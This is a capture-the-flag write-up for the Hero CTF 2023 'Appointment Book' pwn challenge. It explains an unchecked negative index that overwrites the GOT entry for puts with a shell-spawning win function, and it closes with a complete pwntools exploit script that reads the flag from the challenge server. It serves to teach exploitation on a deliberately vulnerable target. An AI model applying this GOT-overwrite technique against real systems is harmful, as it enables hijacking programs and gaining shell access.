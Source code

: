 # Hero CTF 2023 - PWN - Appointment Book

Appointment book was a pwn challenge in Hero CTF worth 298 points.

We are given a binary that gives us our local time and then gives us the option to either list appointments, add an appointment or exit:

```
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-16 08:11:56

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice:
```

Opening up the binary in Ghidra shows us a function `debug_remote` that spawns a shell. This is our win function and we need to find a way to execute it in order to get the flag.

Taking a look at our main function, we see that it firsts fills the memory pointed by `appointments` which is of size 0x80 with 0 bytes, then it gets the current time and converts it to a date using the function timestamp_to_date and displays it :

```c
memset(appointments,0,0x80);
puts("========== Welcome to your appointment book. ==========");
start_time = time((time_t *)0x0);
start_time_date = timestamp_to_date(start_time);
printf("\n[LOCAL TIME] %s\n",start_time_date);
fflush(stdout);
```

After that we see that it calls from within a while true loop the menu function which displays the menu and returns the character inputted by the user. Then depending on the choice, main either calls list_appointments(), create_appointment(), exits, or call out an unknown choice.

We can guess from list_appointments() and create_apppointement(), the structure of appointments in this program. Each appointment first contains a time_t object representing its timestamp and then a pointer to a message (char*) that has at most 62 characters. This is a 64 bit program meaning that the total size of one appointment is 16 bytes because time_t corresponds to a signed long integer (size of 8 bytes) and a pointer is 8 bytes long. The appointments are stored one after another in the memory pointed to by `appointments`. There are a total of 8 appointments that can be stored.

The vulnerability in this program lies in the fact that we can choose the index of the appointment we are adding in create_appointment:

```c
  do {
    printf("[+] Enter the index of this appointment (0-7): ");
    fflush(stdout);
    __isoc99_scanf(&DAT_00402110,&index);
    getchar();
  } while (7 < index);
``` 

As you can see, the appointment indexes should range from 0 to 7 but we are only checking that the appointment is not bigger than 7, meaning that we can input negative numbers. Since that value of index is used to place our data in memory, we can overwrite memory that is placed above `appointments`.

```c
cur_time = (time_t *)(appointments + (long)index * 0x10);
printf("[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): ");
fflush(stdout);
fgets(local_28,0x1e,stdin);
tVar1 = date_to_timestamp(local_28);
*cur_time = tVar1;
printf("[+] Converted to UNIX timestamp using local timezone: %ld\n",*cur_time);
printf("[+] Enter an associated message (place, people, notes...): ");
fflush(stdout);
fgets(local_20,0x3e,stdin);
cur_time[1] = (time_t)local_20;
free(local_28);
```

And we can find above `appointments`, a bunch of pointers to interesting functions we can overwrite:

![Possible functions we can overwrite](/_drafts/Appointment%20Book/poss_fct_overwrite.png)

So what we need to do is overwrite the pointer to one of these functions so that it points to our win function, and then the next time this function is called, it will instead call our win function giving us a shell.

`appointments` is at address 0x4037a0 and if we give an index of -12, since it is multipled by 0x10, we end up overwriting address 0x4036e0 which corresponds to puts.

So how do we link to our win function? Well, we know that each appointment first stores its timestamp and then a message. So we can use timestamp to point to the address of our win function. For our purposes, we only need to know that a timestamp is another way to represent the date we associate to an appointment and it is calculated in this program using standard linux functions, meaning we can use an online timestamp converter to know the date we need to give the program to get a specific timestamp.

Our win function is located at address 0x401336, which corresponds to 4199222 in decimal format, if we look online this corresponds to Wednesday, February 18, 1970 2:27:02 PM GMT, meaning that if we input 1970-02-18 14:27:02 when creating an appointment, we can point to our win function. 

Note that if you are running this program locally and your timezone is not GMT, you need to convert the address you are inputting so that it fits to your timezone. For the remote, we can make use of the fact that at the start of the program, the local time is displayed to know what the correct timezone is.

We can put all of this together in python script (the base of the script is generated using `pwn template --host=static-03.heroctf.fr --port=5000 appointment_book`):

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=static-03.heroctf.fr' '--port=5000' appointment_book
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('appointment_book')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'static-03.heroctf.fr'
port = int(args.PORT or 5000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
io.recv()
io.sendline(b'2')
io.recv()
io.sendline(b'-12')
io.recv()
io.sendline(b'1970-02-18 14:27:02')
io.recv()
io.sendline(b'a')
io.sendline(b'cat flag.txt')
flag = io.recv().decode()
print(flag) 
io.interactive()
```

And the flag is: `Hero{Unch3ck3d_n3g4t1v3_1nd3x_1nt0_G0T_0v3wr1t3_g03s_brrrrrr}`